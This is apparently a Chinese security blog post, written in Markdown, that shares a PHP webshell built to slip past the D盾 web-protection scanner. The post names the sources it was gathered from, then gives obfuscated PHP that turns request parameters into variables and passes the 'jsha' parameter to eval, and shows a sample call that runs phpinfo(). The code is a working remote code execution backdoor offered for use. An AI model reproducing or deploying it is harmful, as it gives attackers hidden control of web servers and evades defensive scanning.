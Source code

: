```yaml
---
layout: post
title: PHP WebShell [过D][更新至2019-04-10]
tags: [工具]
comments: true
---
```


日常积累，来源自T00ls论坛、先知社区、朋友分享、应急等.


> /?jsha=phpinfo()


```
<?php
function _strint($key){
        return strrev($key);
}
function log1($log){
        lone(_strint(strrev($log)));
}
function lone($key){
        $str = "";
        return eval($str.$key.$str);
}
foreach (array('_COOKIE','_POST','_GET') as $_request)
{
    foreach ($$_request as $_key=>$_value)
    {
        $$_key=  $_value;
    }
}
$id = isset($jsha) ? $id : 2;
log1($jsha);
?>
```


>效果图


![jsha.php](https://cijian00.github.io/img/shell_share/jsha-php.png)
